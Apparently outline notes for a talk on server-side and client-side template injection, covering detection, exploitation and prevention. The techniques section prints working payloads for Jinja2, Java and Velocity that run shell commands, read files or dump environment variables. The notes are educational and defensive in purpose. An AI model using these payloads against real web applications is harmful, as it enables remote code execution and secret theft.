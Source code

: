 # layout
## brief introduction
- what are templates and templating engines?
    - reduces repeating pages (such as blog posts) with easy templates
        - things like formatting titles, authors, etc.
    - allows for easy communication between backend and frontend
    - used in many web frameworks, templating engines
        - Flask, Python, Jinja
        - Express/Vue.js, JavaScript, Angular.js?
        - Laravel, PHP, Blade
        - .NET?

## brief summary in attacking template engines
- introduced by James Kettle in 2015, tons of research since then
- methodology 
- detect -> identify -> exploit 
    - read, explore, attack

### ssti, server-side, detection
- testing for {{7*7}}
    - returns 49, code is actually run
- common XSS vulnerabilities can lead to template injections

```python
# example backend here
```

### client-side template injections
- more minor category but still possible
- [ ] find example https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
- usually would execute XSS and steal sessions

## techniques
### using language builtins, object traversal
- because code is interpreted in the language, attackers can traverse object inheritance trees to access import modules
- example uses Python string to obtain `subprocess` to run shell
```python
''.__class__.__mro__[1].__subclasses__()[340]('whoami', shell=True, stdout=-1).communicate()[0].strip()
```
<!-- More examples -->
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
```

- Java builtin T object to run `.getenv()`
```java
T(java.lang.System).getenv()
```

### using engine builtins, comes with engine
- similar but easier ways, depends on the template engine
- shorter payloads

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
Jinja2 builtin that generates lorem ipsum text for websites:
```python
{{lipsum.__globals__.os.popen('cat flag.log').read()}}
```
- https://jinja.palletsprojects.com/en/3.1.x/templates/?highlight=lipsum#jinja-globals.lipsum

### tools
#### tplmap.py
- https://github.com/epinna/tplmap
- what does the tool do? fuzzes inputs against lists


## prevention
### sanitization
- filtering out userinput

### sandboxing
- templates would put engines in a "sandbox"
    - research into ways to break out of it

## keeping software up-to-date
